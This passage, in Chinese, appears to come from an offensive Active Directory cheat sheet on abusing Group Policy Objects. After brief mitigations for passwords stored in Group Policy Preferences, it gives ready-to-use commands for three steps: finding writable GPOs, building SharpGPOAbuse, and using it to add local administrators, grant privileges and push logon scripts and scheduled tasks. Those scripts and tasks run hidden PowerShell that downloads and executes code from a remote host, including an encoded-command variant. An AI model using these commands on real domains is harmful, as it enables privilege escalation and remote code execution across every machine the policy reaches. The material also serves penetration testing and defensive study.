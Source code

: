### 缓解措施

* 在每台用于管理GPO的计算机上安装[KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025)，防止新凭据被放置在组策略首选项中。
* 删除SYSVOL中包含密码的现有GPP xml文件。
* 不要将密码放在所有经过身份验证的用户都能访问的文件中。

## 利用组策略对象GPO

> GPO的创建者自动获得明确的编辑设置、删除、修改安全权限，这表现为CreateChild、DeleteChild、Self、WriteProperty、DeleteTree、Delete、GenericRead、WriteDacl、WriteOwner

:triangular_flag_on_post: GPO优先级：组织单位 > 域 > 站点 > 本地

GPO存储在DC中的`\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`，位于**User**和**Machine**两个文件夹内。
如果你有权编辑GPO，你可以连接到DC并替换文件。计划任务位于`Machine\Preferences\ScheduledTasks`。

:warning: 域成员每90分钟刷新一次组策略设置，随机偏移量为0到30分钟，但可以通过以下命令在本地强制刷新：`gpupdate /force`。

### 寻找易受攻击的GPO

查找你拥有**写入**权限的GPLink。

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

### 使用SharpGPOAbuse滥用GPO

```powershell
# 构建并配置SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# 添加用户权限
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# 添加本地管理员
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# 配置用户或计算机登录脚本
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# 配置计算机或用户即时任务
# /!\ 旨在每次GPO刷新时“运行一次”，而不是每个系统运行一次
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```
